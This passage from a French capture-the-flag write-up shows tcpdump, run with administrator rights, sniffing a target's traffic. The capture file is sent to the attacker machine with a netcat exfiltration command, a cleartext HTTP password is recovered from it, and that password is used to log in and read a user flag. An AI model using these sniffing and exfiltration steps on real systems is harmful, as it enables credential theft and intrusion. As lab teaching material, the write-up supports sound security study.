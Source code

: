 Ce qui signifie qu'on peut lancer ``tcpdump`` avec les droits administrateur.

On va donc tenter d'écouter le réseau pour voir de potentiels paquets intéressants.

Il nous faut d'abord lister toutes les interfaces disponibles pour savoir sur laquelle il faut écouter :

```bash
tcpdump -D
```

On va tout écouter sauf notre machine puisqu'elle envoie beaucoup trop de données qui parasitent la capture et qui ne servent à rien :

```bash
tcpdump -i any -s0 "host not 192.168.1.91" -w /tmp/result.pcap
```

- **-i** permet de spécifier l'interface sur laquelle on écoute. Ici on écoute sur tout
- **-s0** permet de capturer les paquets dans leur entièreté sans qu'ils soient tronqués et donc illisibles.
- **"host not 192.168.1.91"** comme sur ``Wireshark`` on peut spécifier des filtres. Ici on ne veut pas notre machine attaquante.
- **-w** va écrire les résultats dans un fichier ``.pcap`` pour ensuite pouvoir le lire de manière plus fluide directement sur ``Wireshark``.


Après avoir écouté plusieurs minutes, on stop ``tcpdump`` et on transfert le fichier qui contient les échanges réseau sur notre machine hôte pour l'analyser :

```
Côté attaquant : nc -lnvp 6666 > "result.pcap"
Côté cible : nc 192.168.1.91 6666 < "result.pcap"
```

Sur ``Wireshark`` on peut apercevoir une **requête HTTP** intéressante :

```
username=eric&password=3ricThompson%2ACovid19
```

En effet, elle contient des identifiants qui transitent en clair directement sur le réseau.

Si on tente de se connecter sur la machine cible à l'utilisateur ``eric`` avec le mot de passe ``3ricThompson*Covid19`` (attention à bien décoder %2A) on réussi !

```bash
cat /home/eric/user.txt
```
```
If someone asks us when we die tomorrow: ‘What have you seen in the world? If he said, we probably cannot find the answer to give. We don't have time to see it from running. -- Sabahattin Ali

flag(6744e509eec439570c2d6df947526749)
```

## Privesc root méthode 1

Ici c'est la méthode la plus **badass** pour passer root. On verra ensuite une autre méthode beaucoup plus simple.
